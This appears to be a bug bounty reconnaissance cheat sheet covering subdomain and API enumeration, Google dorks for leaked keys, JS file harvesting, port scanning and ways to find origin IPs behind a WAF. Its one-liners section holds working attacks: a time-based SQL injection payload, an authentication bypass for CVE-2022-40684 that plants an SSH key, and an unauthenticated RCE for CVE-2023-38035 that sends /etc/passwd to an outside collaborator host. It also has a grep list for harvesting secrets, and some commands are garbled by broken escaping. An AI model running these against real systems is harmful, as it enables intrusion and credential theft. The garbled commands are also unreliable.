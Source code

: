 # Reconnaissance

## Subdomain Enumeration

> **Tools**

* https://github.com/h0tak88r/AutoSubRecon
* https://github.com/h0tak88r/submonit88r
* https://github.com/bing0o/SubEnum
* https://github.com/shmilylty/OneForAll

> **Write ups**

* https://h0tak88r.medium.com/mastering-subdomain-enumeration-6c84571b07b
* https://h0tak88r.github.io/posts/Deep-Subdomains-Enumeration/
*

## API Recon

1. Check for documentation
   * Swagger -> `/openapi.json`
   * GraphQL -> https://graphql.org/learn/introspection/ -> https://github.com/prisma-labs/get-graphql-schema
   * manual -> `site:target.tld intitle:api | developer`
2. Search for APIs
   * `site:target.tld inurl:api`
   * `intitle:"index of" "api.yaml" site:target.tld`
   * `intitle:"index of" intext:"apikey.txt" site:target.tld`
   * `allintext:"API_SECRET*" ext:env | ext:yml site:target.tld`
3. Enumerate endpoints / methods
   * https://wordlists-cdn.assetnote.io/data/automated/httparchive\_apiroutes\_2023\_08\_28.txt
   * swagger -> https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/swagger.txt
   * Tools -> [ffuf](https://github.com/ffuf/ffuf#post-data-fuzzing) -> [kiterunner](https://github.com/assetnote/kiterunner)

## One-liners & Quick Wins

```bash
# Grep emails and other PII Data from URLs file
grep -E -o '\\\\\\\\b[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\\\\\\\\.[a-zA-Z]{2,}\\\\\\\\b' urls.txt

#Extract Endpoints from JavaScript
cat FILE.js | grep -oh "\\\\\\\\"\\\\\\\\/[a-zA-Z0-9_/?=&]&\\\\\\\\""| sed -e 's/^"//' -e 's/"$//' | sort -u

#Get CIDR & Org Information from Target Lists
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\\\\\\\\|Organization" | tr -s " | paste -; done | uniq); done
"
#Prototype Pollution
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\\\\\\\\/?_proto_[testparam]=exploit\\\\\\\\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
'
# Sitemap SQL Injection
cat urls.txt | httpx -silent -path 'sitemap.xml?offset=1%3bSELECT%20IF((8303%3E8302)%2cSLEEP(10)%2c2356)%23' -rt -timeout 20 -mrt '>10'

# Authentication Bypass (CVE-2022-40684) POC --> <https://twitter.com/h4x0r_dz/status/1580648642750296064/photo/1>
ffuf -w "host_list.txt:URL" -u "<https://URL/api/v2/cmdb/system/admin/admin>" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r

## CVE-2023-26256 -> <https://github.com/aodsec/CVE-2023-26256>
git clone <https://github.com/aodsec/CVE-2023-26256.git>
python3 CVE-2023-26256.py -h

# CVE-2023-38035 - Unauth. RCE
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd [BURP-COLLABORATOR-URL.com](https://burp-collaborator-url.com/)', 'isRoot': True}, None)"

# Quick Port Scanning with Fuzzing
cat ips.txt|naabu -silent -tp 1000 -o top1k.txt;cat top1k.txt|grep -vE ':80|:443' | httpx -silent -fc 400,503,204,405 -o httpx.txt;cat httpx.txt|python3 [dirsearch.py](https://dirsearch.py/) --stdin -e '*' -t 60 -w onelistforall.txt -i 200,301,302 --format plain -o report.txt

# SSRF use Autorize Exxtension Match and replace 
https?://(www.)?[-a-zA-Z0–9@:%.+~#=]{1,256}.[a-zA-Z0–9()]{1,6}\b([-a-zA-Z0–9()@:%+.~#?&//=]*)

```

***

## Fingerprinting

*   Port Scanning [https://github.com/nullt3r/jfscan](https://github.com/nullt3r/jfscan)

    ```bash
    # Before installation
    sudo apt install libpcap-dev
    sudo apt-get --assume-yes install git make gcc
    #masscan
    git clone <https://github.com/robertdavidgraham/masscan>
    cd masscan
    make
    sudo make install
    sudo setcap CAP_NET_RAW+ep /usr/bin/masscan
    sudo apt install python3 python3-pip
    # install jfscan
    git clone <https://github.com/nullt3r/jfscan.git>
    cd jfscan
    cd jfscan
    # incase of error running 
    export PATH="$HOME/.local/bin:$PATH"
    ```
*   Waf Detect

    ```bash
    nuclei -l urls.txt -t nuclei_templates/waf
    sudo apt install wafw00f
    wafw00f -l urls.txt
    ```
*   [**uncover**](https://github.com/projectdiscovery/uncover) >> discover exposed hosts on the internet. It is built with automation in mind, so you can query it and utilize the results with your current pipeline tools.

    ```python
    # installation
    go install -v github.com/projectdiscovery/uncover/cmd/uncover@latest
    # configuration file 
    $HOME/.config/uncover/provider-config.yaml
    # usage
    uncover -q "test.com" -e censys,fofa,shodan
    ```

## JS Files

> **Tools**

* [Scripts/python scripts/JS\_Leaks\_spider.py](https://github.com/h0tak88r/Scripts/blob/main/python%20scripts/JS\_Leaks\_spider.py)
* Use This Extension to analyse JS Files [FindSomething - Chrome Web Store (google.com)](https://chrome.google.com/webstore/detail/findsomething/kfhniponecokdefffkpagipffdefeldb/related)
* [Can analyzing javascript files lead to remote code execution? | by Asem Eleraky | Medium](https://melotover.medium.com/can-analyzing-javascript-files-lead-to-remote-code-execution-f24112f1aa1f)

```bash
# Collect JS Files
katana -list targets.txt -jc | grep “\\.js$” | uniq | sort -u | tee JS.txt

# or use gau tool
cat targets.txt | gau |  grep “\\.js$” | uniq | sort -u | tee JS2.txt

# Analyzing JS files
nuclei -l JS.txt -t ~/nuclei-templates/exposures/ -o js_exposures_results.txt
nuclei -l JS2.txt -t ~/nuclei-templates/exposures/ -o js_exposures_results.txt
cat Js_urls.txt | Mantra



# Download all JS files 
file="JS.txt"
while IFS= read -r link
do
    wget "$link"
done < "$file"

file="JS2.txt"
while IFS= read -r link
do
    wget "$link"
done < "$file"

# Use This Regex to search for sensitive info 
grep -r -E "aws_access_key|aws_secret_key|api key|passwd|pwd|heroku|slack|firebase|swagger|aws_secret_key|aws key|password|ftp password|jdbc|db|sql|secret jet|config|admin|pwd|json|gcp|htaccess|.env|ssh key|.git|access key|secret token|oauth_token|oauth_token_secret|smtp|GTM-" *.js

```

## Bypass WAF and Find Origin IPs

### Using hakoriginfinder&#x20;

* References:
* &#x20;[https://x.com/Jayesh25\_/status/1735240906750443851?s=35](https://x.com/Jayesh25\_/status/1735240906750443851?s=35)
* [https://github.com/hakluke/hakoriginfinder](https://github.com/hakluke/hakoriginfinder)

1. Discover your target's ASN and check [https://bgp.he.net/AS33848#\_prefixes…](https://t.co/0pQS70hOLL) &#x20;
2. Make a note of the target's IP range.&#x20;
3. Assuming you have a WAF-protected domain called example\[.]com. Use this command with the IP range Identified in step 1 and pass your target host against the -h parameter:

```bash
prips 93.184.216.0/24 | hakoriginfinder -h example.com
```

If you receive a "MATCH" output, there's a strong likelihood that you've successfully identified the Origin IP. Now, you can send requests with the same Host header to bypass WAF

### Using Netlas/Shodan&#x20;

* [https://x.com/Jayesh25\_/status/1843646332239544341](https://x.com/Jayesh25\_/status/1843646332239544341)

1. Go to [Netlas](https://app.netlas.io/registration/), [shodan](https://www.shodan.io/), SecurityTrails or other similar platforms&#x20;
2. &#x20;Make filters like `http.title:"My_target_title"`
3. Sometyimes There is Origin IPs exposed
